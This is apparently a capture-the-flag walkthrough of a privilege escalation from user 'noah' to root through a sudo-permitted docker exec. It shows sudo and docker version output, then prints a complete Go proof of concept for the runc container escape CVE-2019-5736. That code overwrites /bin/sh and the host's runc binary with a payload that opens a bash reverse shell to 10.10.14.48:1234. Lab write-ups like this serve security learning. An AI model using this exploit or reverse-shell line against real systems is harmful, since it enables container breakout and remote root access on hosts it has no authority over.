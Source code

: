 # Noah user to Root
## Sudo -l command 
`sudo -l` command showed that command `/usr/bin/docker exec -it webapp-dev01*`  can run as root
```bash
noah@thenotebook:/tmp$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```
## Found installed docker version to find relevant exploit
Docker version was 18.06.0-ce.
```bash
noah@thenotebook:/tmp$ docker version                                                                                
Client:                                                                                                              
 Version:           18.06.0-ce                                                                                       
 API version:       1.38                                                                                             
 Go version:        go1.10.3                                                                                         
 Git commit:        0ffa825                                                                                          
 Built:             Wed Jul 18 19:09:54 2018                                                                         
 OS/Arch:           linux/amd64                                                                                      
 Experimental:      false                                             
 ```
 
## Exploit was found corresponding to installed docker version on victim machine
* [Docker escape--runc container escape vulnerability (CVE-2019-5736)](https://programmersought.com/article/71085031667/)
* [github page for exploit code wriiten in golang](https://github.com/Frichetten/CVE-2019-5736-PoC)
* Exploit code is :
```go
package main

// Implementation of CVE-2019-5736
// Created with help from @singe, @_cablethief, and @feexd.
// This commit also helped a ton to understand the vuln
// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d
import (
	"fmt"
	"io/ioutil"
	"os"
	"strconv"
	"strings"
)

// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n bash -i >& /dev/tcp/10.10.14.48/1234 0>&1"

func main() {
	// First we overwrite /bin/sh with the /proc/self/exe interpreter path
	fd, err := os.Create("/bin/sh")
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Fprintln(fd, "#!/proc/self/exe")
	err = fd.Close()
	if err != nil {
		fmt.Println(err)
		return
	}
	fmt.Println("[+] Overwritten /bin/sh successfully")

	// Loop through all processes to find one whose cmdline includes runcinit
	// This will be the process created by runc
	var found int
	for found == 0 {
		pids, err := ioutil.ReadDir("/proc")
		if err != nil {
			fmt.Println(err)
			return
		}
		for _, f := range pids {
			fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
			fstring := string(fbytes)
			if strings.Contains(fstring, "runc") {
				fmt.Println("[+] Found the PID:", f.Name())
				found, err = strconv.Atoi(f.Name())
				if err != nil {
					fmt.Println(err)
					return
				}
			}
		}
	}

	// We will use the pid to get a file handle for runc on the host.
	var handleFd = -1
	for handleFd == -1 {
		// Note, you do not need to use the O_PATH flag for the exploit to work.
		handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
		if int(handle.Fd()) > 0 {
			handleFd = int(handle.Fd())
		}
	}
	fmt.Println("[+] Successfully got the file handle")

	// Now that we have the file handle, lets write to the runc binary and overwrite it
	// It will maintain it's executable flag
	for {
		writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
		if int(writeHandle.Fd()) > 0 {
			fmt.Println("[+] Successfully got write handle", writeHandle)
			writeHandle.Write([]byte(payload))
			return
		}
	}
}
```
## Downloaded , edited and transferred exploit to victim docker container
![[Pasted image 20210407091837.png]]